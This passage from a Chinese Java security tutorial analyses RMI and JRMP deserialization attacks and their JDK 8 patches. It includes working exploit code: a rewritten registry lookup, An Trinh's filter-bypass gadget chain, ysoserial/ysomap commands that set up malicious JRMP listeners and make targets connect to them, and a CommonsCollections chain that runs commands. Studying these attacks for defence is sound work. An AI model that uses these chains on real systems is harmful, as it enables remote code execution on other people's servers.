            // 调用AnnationInvacationHandler封装了恶意对象，在动态代理转换为Remote
            remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
        }
        // 可以通过lookup攻击
        if (RMIMethod.equals("bind")){
            try {
                registry.bind(name, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        } else if (RMIMethod.equals("lookup")){
            try {
                lookup(registry,remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        } else {
            throw new Exception(RMIMethod + " not supported");
        }

        Utils.releasePayload(payloadObj, payload);
        return null;
    }});
}
// 新增lookup方法
public static void lookup(Registry registry,Object var1) throws AccessException, NotBoundException, RemoteException {
    try {

        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

        RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
        StreamRemoteCall var2 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);

        try {
            ObjectOutput var3 = var2.getOutputStream();
            var3.writeObject(var1);
        } catch (IOException var15) {
            throw new MarshalException("error marshalling arguments", var15);
        }
        ref.invoke(var2);//这个语句不能少，否则不会触发。
    } catch (RuntimeException var16) {
        throw var16;
    } catch (RemoteException var17) {
        throw var17;
    } catch (NotBoundException var18) {
        throw var18;
    } catch (Exception var19) {
        throw new UnexpectedException("undeclared checked exception", var19);
    }
}
```

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections5 "calc.exe"
# 向Register发送恶意序列化对象，使其发起对恶意JRMP的连接
# 前一个ip和端口是要打的register，后面的host:port是开启JRMP恶意服务端的host和端口,lookup是选择通过lookup发起攻击
java -cp ysoserial-all.jar ysoserial.payloads.RMIRegistryExploit lookup JRMPClient ip port ip:port
```

#### jdk8u231<=version<jdk8u241

##### 修复一RegistryImpl_Skel#dispatch添加异常检查

在RegistryImpl_Skel#dispatch中，bind、list、unbind、lookup等方法对应的反序列化操作后都增加了一个异常检查操作，如果抛出异常，就会执行代码`var7.discardPendingRefs`，这行代码的作用简单来说就是消除之前反序列化过程生成的一个对象，这会导致后续`var7.releaseInputStream()`无法发起JRMP连接。



那反序列化我们的恶意对象会抛出异常吗，主要有两个地方存在抛出异常的可能，一个是我们如何包装我们的payload，另一个是强转：

* 如果我们使用了register没有的自定义类包装我们的payload，那么会有ClassNotFoundException
* 不使用自定义类，但强转为String会抛出ClassCastException

##### 修复二sun.rmi.transport.DGCImpl_Stub#dirty中添加反序列化过滤操作

jdk8u231与之前相比，在sun.rmi.transport.DGCImpl_Stub#dirty中新增了反序列化过滤器



过滤函数如下

```java
 private static ObjectInputFilter.Status leaseFilter(ObjectInputFilter.FilterInfo var0) {
        if (var0.depth() > (long)DGCCLIENT_MAX_DEPTH) {
            return Status.REJECTED;
        } else {
            Class var1 = var0.serialClass();
            if (var1 == null) {
                return Status.UNDECIDED;
            } else {
                while(var1.isArray()) {
                    if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)DGCCLIENT_MAX_ARRAY_SIZE) {
                        return Status.REJECTED;
                    }

                    var1 = var1.getComponentType();
                }

                if (var1.isPrimitive()) {
                    return Status.ALLOWED;
                } else {
                    return var1 != UID.class && var1 != VMID.class && var1 != Lease.class && (var1.getPackage() == null || !Throwable.class.isAssignableFrom(var1) || !"java.lang".equals(var1.getPackage().getName()) && !"java.rmi".equals(var1.getPackage().getName())) && var1 != StackTraceElement.class && var1 != ArrayList.class && var1 != Object.class && !var1.getName().equals("java.util.Collections$UnmodifiableList") && !var1.getName().equals("java.util.Collections$UnmodifiableCollection") && !var1.getName().equals("java.util.Collections$UnmodifiableRandomAccessList") && !var1.getName().equals("java.util.Collections$EmptyList") ? Status.REJECTED : Status.ALLOWED;
                }
            }
        }
    }
```

##### 绕过思路

在jdk8u141<=version<jdk<8u231下，我们能够使用的攻击方法是1.通过lookup发起请求，向register传递一个在JEP290白名单内的恶意对象，2.这个恶意对象反序列化时生成一个ref，3.随后利用这个ref反连到我们的恶意JRMP服务端，4.register作为JRMP客户端发起DGC的dirty请求恶意对象，5.恶意对象反序列化，自此攻击完成。让我们梳理一下jdk8u231是如何针对这样的攻击做修复的，在2、3步之间添加了一个异常检查，抛出异常时，消除我们反序列化生成的ref，使得无法发起dirty连接，在4、5步之间，在DGC层的dirty方法中增加了反序列化过滤器，防止恶意对象反序列化。

An Trinh的绕过方法仍然和jdk8u141<=version<jdk<8u231下的攻击类似，但是他解决了两个问题，以绕过新的修复。一，我们发送的第一个恶意对象仍然可以正常反序列化，但是新增的异常检查阻止了后续代码的配合，我们无法发起JRMP请求，那是否可以找到一条链在反序列化时直接发起请求，无需与后续代码配合；二，第一次反序列化的恶意对象目的是发起一个dirty请求，现在dirty方法中新增了反序列化过滤器，但是第二次反序列化的本质是JRMP协议层面的反序列化，dirty只是诸多发起JRMP请求的其中一处入口，是否可以找到其他入口绕过dirty中新增的反序列化过滤器呢？

##### 新的gadget链

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);

//1.UnicastRef对象 -> RemoteObjectInvocationHandler
//obj是UnicastRef对象，先RemoteObjectInvocationHandler封装
RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) new UnicastRef(new LiveRef(id, te, false)));
//2. RemoteObjectInvocationHandler -> RMIServerSocketFactory接口
//RemoteObjectInvocationHandler通过动态代理封装转化成RMIServerSocketFactory
RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
    RMIServerSocketFactory.class.getClassLoader(),// classloader
    new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
    handler// RemoteObjectInvocationHandler
);
//通过反射机制破除构造方法的可见性性质，创建UnicastRemoteObject实例
Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
constructor.setAccessible(true);
UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
//3. RMIServerSocketFactory -> UnicastRemoteObject
//把RMIServerSocketFactory塞进UnicastRemoteObject实例中
setFieldValue(remoteObject, "ssf", serverSocketFactory);
```

这里整个反序列化链就不再分析，可以参考文章[Trinhs RMI 注册表旁路 |MOGWAI 实验室 (mogwailabs.de)](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)

##### 对于lookup函数的再次改造

这里需要对之前的lookup函数再进行一些改造

```java
 public static void lookup(Registry registry,Object var1) throws AccessException, NotBoundException, RemoteException {
        try {

            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

            RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
            StreamRemoteCall var2 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                // 新增语句
                Reflections.setFieldValue(var3,"enableReplace",false);
                var3.writeObject(var1);

            } catch (IOException var15) {
                throw new MarshalException("error marshalling arguments", var15);
            }
            ref.invoke(var2);
        } catch (RuntimeException var16) {
            throw var16;
        } catch (RemoteException var17) {
            throw var17;
        } catch (NotBoundException var18) {
            throw var18;
        } catch (Exception var19) {
            throw new UnexpectedException("undeclared checked exception", var19);
        }
    }
```

##### 使用ysomap进行攻击

```shell
# ysomap的脚本
# 开一个恶意的JRMP服务端，这里使用CB链进行攻击，确保目标的java版本和依赖库支持
use exploit RMIListener
use payload CommonsBeanutils1
use bullet TemplatesImplBullet
set lport 1099
set body "open -a Calculator"
run

# 使用恶意payload攻击目标使其连接我们的恶意JRMP服务端
use exploit RMIRegistryExploit
use payload RMIConnectWithUnicastRemoteObject
set target ip:port
set rhost 127.0.0.1
set rport 1098
run
```

#### jdk8u241之后的修复（TODO）

##### 第一处修复

##### 第二处修复

### 对JRMP客户端的反序列化攻击（RMI client暂未发现版本限制，DGC在jdk8u231后存在过滤器）

首先辨析一下JRMP协议的客户端和RMI的Client，这两者是不同的概念。JRMP的客户端指的是通过JRMP协议主动发起请求的一方（包括RMI和DGC中主动请求的一方），而RMI的client则是从register获取server的stun，然后进行远程方法调用的一方。

RMI的client会通过list、lookup与register进行交互，而RMI的server会通过bind、unbind、rebind与register进行交互，这些时候，client和server充当的是JRMP中发起请求的一方，即JRMP的客户端。

对于上述方法中的任意一个，我们都可以发现这一行代码`this.ref.invoke(var1);`，这是执行远程方法调用的代码，以list为例，我们在这打上断点，调试程序。

步入UnicastRef#invoke

继续步入StreamRemoteCall#executeCall，StreamRemoteCall这个类实现了 `RemoteCall` 接口的 `executeCall` 方法，负责发送调用请求并等待服务器响应。这是实现客户端和服务器端通信的核心部分。这里的代码中已经可以看到处理JRMP协议的一些逻辑了，代码逻辑已经在JRMP协议的层面了。



前面读取数据流和协议头的部分，我们略过，var1是从RMI报文中读取的一个值，来到switch (var1)这里，var1有两个可能的值，1表示非异常对象，2表示为异常对象



如果是2异常对象，可以看到有一个反序列化的操作，这里就是反序列化漏洞的触发点。

如何构造攻击代码呢，首先，我们得实现一个JRMP的服务器，让其接受JRMP请求时返回恶意对象。我们梳理JRMP服务端的代码，没有很好的地方，可以自定义一个异常对象。可以看一下ysoserial的ysoserial.exploit.JRMPListener，它是自己实现了一个JRMP的服务端，手动构造协议。由于对JRMP协议的了解有限，这里就不附上poc代码了，参考ysoserial即可。

#### 使用ysoserial进行攻击

开启一个恶意的JRMP服务端

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```

控制JRMP客户端对恶意服务发起连接

### 对于RMI的Client的反序列化攻击

#### Client接受Register返回的非异常对象的反序列化攻击（jdk8u241后仍可用）

首先说明这里为什么要强调非异常对象，如果Register返回的是异常对象，那就会如之前所分析，进入了JRMP层的反序列化。

回到RegisterImpl_Stun的lookup、list这两个方法上来。这两个方法在RMI的Client侧调用，在利用lookup攻击Register时，我们重写了它，以实现利用writeObject序列化恶意对象后攻击Register，然而稍加留意可以发现，这两个方法中也存在readObject的调用（bind、rebind和unbind没有，所以server不会受到register返回的非异常对象的攻击），那是否意味着它们也存在反序列化攻击的风险呢？

以list为例：

```java
// RegistryImpl_Stub#list
// ...
// 远程对象的调用
StreamRemoteCall var1 = (StreamRemoteCall)this.ref.newCall(this, operations, 1, 4905912898345647071L);
// 远程对象的调用过程此时无需关注
this.ref.invoke(var1);

String[] var2;
try {
    ObjectInput var3 = var1.getInputStream();
    // 反序列化获取远程对象的调用结果
    var2 = (String[])((String[])var3.readObject());
} catch (IOException | ClassNotFoundException | ClassCastException var10) {
    var1.discardPendingRefs();
    throw new UnmarshalException("error unmarshalling return", var10);
} finally {
    this.ref.done(var1);
}
// ...
```

我们在Register端找一下，哪里进行的writeObject操作

```java
// RegistryImpl_Skel#dispatch
// ...
case 1:
    var7.releaseInputStream();
    String[] var80 = var6.list();

    try {
        ObjectOutput var82 = var7.getResultStream(true);
        // 序列化对象
        var82.writeObject(var80);
        break;
    } catch (IOException var76) {
        throw new MarshalException("error marshalling return", var76);
    }
```

很显然，这里我们没有办法控制var6.list()返回恶意对象完成对于客户端的攻击，所以我们得手动实现一个Register侧的服务，在客户端list调用时返回恶意对象。

这里我们可以参考，ysoserial的ysoserial.exploit.JRMPListener的代码实现，该模块是针对JRMP的客户端进行攻击，但是前文分析过程中，有一个switch语句来判断传输的对象是异常对象还是非异常对象，如果是异常对象就在JRMP层反序列化，是正常对象就回到RMI层反序列化。

我们可以将ysoserial.exploit.JRMPListener代码稍作更改，在RMI层反序列化

```java
// doCall
// ......
// 在JRMP层反序列化
oos.writeByte(TransportConstants.ExceptionalReturn);
// 在RMI层反序列化
// oos.writeByte(TransportConstants.NormalReturn)
// ......
```

分析完后可以看出，这个攻击方法相对于直接在JRMP层反序列化较为鸡肋。

#### Client作为DGC客户端的反序列化攻击（jdk8u121之前）

和前面一样，这里也是非异常对象时才进入DGC层，和前面一样与JRMP层的攻击相比比较鸡肋，这里大致了解一下即可。

回到DGCImpl_Stub的dirty这个方法上来：

```java
    public Lease dirty(ObjID[] var1, long var2, Lease var4) throws RemoteException {
        try {
            RemoteCall var5 = super.ref.newCall(this, operations, 1, -669196253586618813L);

            try {
                ObjectOutput var6 = var5.getOutputStream();
                var6.writeObject(var1);
                var6.writeLong(var2);
                var6.writeObject(var4);
            } catch (IOException var20) {
                throw new MarshalException("error marshalling arguments", var20);
            }

            super.ref.invoke(var5);

            Lease var24;
            try {
                ObjectInput var9 = var5.getInputStream();
                // 反序列化点
                var24 = (Lease)var9.readObject();
            } catch (IOException var17) {
                throw new UnmarshalException("error unmarshalling return", var17);
            } catch (ClassNotFoundException var18) {
                throw new UnmarshalException("error unmarshalling return", var18);
            } finally {
                super.ref.done(var5);
            }

            return var24;
        } catch (RuntimeException var21) {
            throw var21;
        } catch (RemoteException var22) {
            throw var22;
        } catch (Exception var23) {
            throw new UnexpectedException("undeclared checked exception", var23);
        }
    }
```

这里利用的话，需要构建一个恶意的DGC服务端，和前面对client一样改造ysoserial.exploit.JRMPListener即可。

#### Client接收Server返回对象的反序列化攻击（jdk8u241后仍可用）

##### 示例代码

攻击方法非常简单，server端返回一个恶意的对象即可。

测试的时候注意设置server的JVM参数，-Djava.rmi.server.hostname=，不然client有可能收不到正确的server ip

```java
// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}

// server
import java.rmi.Remote;

public interface ReturnObj extends Remote {
    public Object returnObj() throws Exception;
}


import org.example.payload.CC2;
import org.example.remoteInterface.ReturnObj;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;

public class ReturnObjServer extends UnicastRemoteObject implements ReturnObj {
    public ReturnObjServer() throws RemoteException {}
    @Override
    public Object returnObj() throws Exception {
        return CC2.getObject();
    }

    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        ReturnObjServer returnObjServer = new ReturnObjServer();
        String host = "127.0.0.1";
        int port = 1099;
        Registry registry = LocateRegistry.getRegistry(host, port);
        registry.bind("returnObjServer",returnObjServer);
    }
}

// client
import org.example.remoteInterface.ReturnObj;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class WeakClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("localhost", 1099);

        ReturnObj returnObj = (ReturnObj) registry.lookup("returnObjServer");

        Object object = returnObj.returnObj();
    }
}

// CC2
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static Object getObject() throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(fakeTransformers);
        Comparator comparator = new
                TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(transformerChain, "iTransformers", transformers);

        return queue;
    }

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(getObject());
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

##### server的序列化点（TODO）

待补充

##### client的反序列化点

以这里示例CC5进行攻击为例，在CC5反序列化的对象PriorityQueue的readObject方法处打上断点，调试程序





注意UnicastRef#invoke中也调用了executeCall这个函数，前面JRMP客户端攻击的时候分析过，这会进入JRMP层，所以这里也容易收到JRMP层的反序列化攻击



### 对于RMI的Server的反序列化攻击

#### Server作为DGC服务端的反序列化攻击（同Register DGC层）

和Register作为DGC服务端完全相同

#### Server接受Client远程调用参数的反序列化攻击（jdk8u241以后仍可用）

##### 示例代码

代码示例，攻击方式也很简单，client调用远程方法时传递恶意参数即可

```java
// 恶意客户端代码，CC2.getObject()返回恶意对象
import org.example.payload.CC2;
import org.example.remoteInterface.GetAnytypeParams;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("192.168.110.146", 1099);

        GetAnytypeParams getAnytypeParams = (GetAnytypeParams) registry.lookup("getobjectServer");

        Object object = getAnytypeParams.getAnytypeParams(CC2.getObject());
    }
}

// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}
```

##### server的反序列化点（TODO）

##### client的序列化点（TODO）

### 动态加载类攻击

* **见java安全漫谈部分**

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的class文件可以使用http://、ftp://、file://进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，如果服务端方法的返回值可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些**子类**中被重写的方法，客户端就需要从服务端提供的`java.rmi.server.codebase`URL去加载类；对于服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的**子类**，那么服务端需要从客户端提供的`java.rmi.server.codebase`URL去加载对应的类。客户端与服务端两边的`java.rmi.server.codebase`URL都是互相传递的。无论是客户端还是服务端要远程加载类，都需要满足以下条件：

1. 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从**JDK 6u45、7u21**开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

